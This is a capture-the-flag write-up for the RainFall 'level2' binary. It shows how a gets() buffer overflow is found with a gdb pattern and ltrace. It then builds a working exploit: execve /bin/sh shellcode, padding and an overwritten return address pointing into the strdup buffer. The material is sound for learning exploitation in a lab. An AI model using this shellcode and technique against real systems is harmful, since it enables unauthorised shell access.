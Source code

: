 First we start by open the file in [dogbolt](https://dogbolt.org/). We can see that it use the `gets` function which is vulnerable to overflow attacks.

Here we see that we have to get a shellcode to launch a shell. We can use [shell-storm](https://shell-storm.org/shellcode/index.html) :

We use a pattern like the previous level:
`aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz`

```
(gdb) r
Starting program: /home/user/level2/level2
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppuuuurrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x75757575 in ?? ()
```

So here we see that we overflow on the 4 bytes `0x75757575` which translate to `uuuu`.
We know that we start overflow after 80 character

Now to find the returned address we will use `ltrace` on the file:

``` Shell
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                                                                                 = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
)                                                                                                      = 0xbffff6fc
puts(""
)                                                                                                                                           = 1
strdup("")                                                                                                                                         = 0x0804a008
+++ exited (status 8) +++
```

Here we can see that the `strdup` use the address `0x0804a008` (address from the buffer)
When transform in little endian and hex: `\x08\xa0\x04\x08`

80-size(shellcode) : 80 - 21= 59

So now we know that our exploit will be compose by :
[21 char of shellcode][a 59 char nop sled][4 bytes address]

```Shell
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90" * 59 + "\x08\xa0\x04\x08"' > /tmp/test3
```
